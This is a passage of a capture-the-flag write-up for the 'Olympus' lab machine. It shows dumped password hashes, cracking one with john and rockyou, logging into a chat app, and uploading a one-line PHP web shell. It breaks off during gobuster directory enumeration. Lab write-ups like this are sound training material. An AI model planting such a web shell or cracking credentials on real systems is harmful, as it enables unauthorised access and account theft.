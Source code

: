 ```shell
| dgas     | zeus@chat.olympus.thm  | zeus       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC |
+----------+------------------------+------------+--------------------------------------------------------------+
[REDACTED]
geobour98@kali:~$ cat /etc/hosts
[REDACTED]
10.10.203.170   olympus.thm chat.olympus.thm
[REDACTED]
```

If we navigate to `http://chat.olympus.thm` we see a login page. Before, we found some hashes so it's time to crack them. We will use `john` for the first hash `$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C`, which is saved in file `hash`, with `rockyou.txt` wordlist.

- Command: `john -w=/usr/share/wordlists/rockyou.txt hash --format=bcrypt`

```shell
geobour98@kali:~$ john -w=/usr/share/wordlists/rockyou.txt hash --format=bcrypt
Using default input encoding: UTF-8                                                                                   
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])                                                                   
Cost 1 (iteration count) is 1024 for all loaded hashes                                                                
Will run 12 OpenMP threads                                                                                            
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
[REDACTED]       (?)                                                                                                  
1g 0:00:00:07 DONE (2022-09-22 23:33) 0.1386g/s 569.2p/s 569.2c/s 569.2C/s 19861986..candies                          
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
```

Now we can login with username `prometheus` and the found password on the chat application (`http://chat.olympus.thm`).

There is an upload functionality, so we upload `cmd.php` with contents:

```php
<?php
system($_REQUEST['cmd']);
?>
```

We don't know where the file is uploaded to, so we can run `gobuster`.
- Command: `gobuster dir -u http://chat.olympus.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 50`


```shell
geobour98@kali:~$ gobuster dir -u http://chat.olympus.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 50
===============================================================                                                       
Gobuster v3.1.0                                                                                                       
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                         
===============================================================                                                       
[+] Url:                     http://chat.olympus.thm/                                                                 
```